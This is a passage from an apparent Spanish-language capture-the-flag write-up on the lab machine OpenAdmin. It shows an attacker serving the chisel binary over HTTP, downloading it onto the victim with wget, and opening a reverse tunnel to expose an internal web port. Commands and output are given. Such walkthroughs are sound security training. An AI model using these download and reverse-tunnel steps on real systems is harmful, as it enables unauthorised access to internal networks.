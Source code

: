 ### Port Forwarding with Chisel

Desde nuestro equipo atacante, dispondremos del binario de `chisel` el cual compartiremos a través de un servidor web con Python.

```bash
❯ ls -l chisel
.rwxr-xr-x kali kali 8.9 MB Sun Feb 16 03:43:15 2025  chisel

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

En la máquina víctima, nos descargaremos el binario compartido y le daremos los permisos de ejecución correspondientes.

```bash
jimmy@openadmin:/tmp$ wget 10.10.14.2/chisel; chmod +x chisel
--2025-03-07 05:50:16--  http://10.10.14.2/chisel
Connecting to 10.10.14.2:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9371800 (8.9M) [application/octet-stream]
Saving to: ‘chisel’

chisel                      100%[==========================================>]   8.94M   666KB/s    in 15s     

2025-03-07 05:50:31 (623 KB/s) - ‘chisel’ saved [9371800/9371800]

jimmy@openadmin:/tmp$ 
```

En nuestra máquina atacante, configuraremos el `chisel`para que actúe como servidor a través del puerto `1234`.

```bash
❯ ./chisel server --reverse -p 1234
2025/03/07 06:49:43 server: Reverse tunnelling enabled
2025/03/07 06:49:43 server: Fingerprint QXtg34BSTLW+VL8Zau8gxZzNeq/nc/PIJyDObTACqS8=
2025/03/07 06:49:43 server: Listening on http://0.0.0.0:1234
```

A través de la máquina vícitma, indicaremos a `chisel` que actúe como cliente y se conecte a nuestro equipo realizando un `Port Forwarding` del puerto interno de la página web encontrada hacia nuestro equipo.

```bash
jimmy@openadmin:/tmp$ ./chisel client 10.10.14.2:1234 R:52846:127.0.0.1:52846
2025/03/07 05:52:03 client: Connecting to ws://10.10.14.2:1234
2025/03/07 05:52:05 client: Connected (Latency 276.304265ms)
```

Desde nuestro navegador accederemos a [http://localhost:52846](http://localhost:52846) y comprobaremos el siguiente contenido de la página web.
